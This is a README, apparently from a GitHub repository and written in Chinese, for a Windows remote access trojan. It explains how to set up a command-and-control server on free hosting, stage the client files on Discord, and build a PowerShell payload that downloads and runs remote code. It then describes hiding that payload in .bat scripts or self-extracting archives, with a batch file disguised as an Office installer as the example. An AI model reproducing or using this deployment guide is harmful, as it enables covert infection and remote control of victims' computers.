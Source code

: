# RAT
## 軟體限制
* 只可用於windows10/11

## 環境建構
### 需要的軟體或服務
* python>=3.10
* 000webhost帳號

### 搭建c2和設定c2網址
1. 到000webhost的file manager將c2_server的所有檔案放入public_html，並複製你的網站網址，它會長得像`https://<your domain >.000webhostspp.com`。
2. 到host/server.py 將所有的`<YOUR 000webhost URL>`改成你的網站網址。
3. 到Plugin/client.pyw 將所有的`<YOUR 000webhost URL>`改成你的網站網址。
4. 在這個git的目錄底下用cmd執行`pip -r requirements.txt`

## 建構payload
1. 將修改好的Plugin資料夾壓縮成Plugin.zip並上傳至discord。
2. 複製上傳到discord的Plugin.zip的檔案連結
3. 將shell_content.txt中的`<YOUR Plugin.zip URL>`改成discord的Plugin.zip的檔案連結
4. 將shell_content.txt上傳到discord並複製檔案連結
5. 將payload中的`YOUR INSTALL URL`改成shell_content.txt的檔案連結

### payload
```powershell
powershell -Command "$a = & curl.exe -k 'YOUR INSTALL URL'; powershell -Command $a"
```

以上就是建構payload的方法
## payload的使用方法
1. 放入.bat、.cmd 腳本
2. 利用自解檔在執行時加入payload設定為解壓縮前或後執行
3. 可以將其加入各式腳本中

### 使用範例
![請見office2021.bat](https://github.com/jashing223/RAT/blob/try/Office2021.bat)
以上檔案截自網路並做過修改原先功能已無法使用，這個檔案僅作為使用範例。

## 運作流程
![diagram-export-2024-5-11-下午8_36_26](https://github.com/jashing223/RAT/assets/78540692/42413190-d754-4abd-a4f9-02d2a6c30a19)

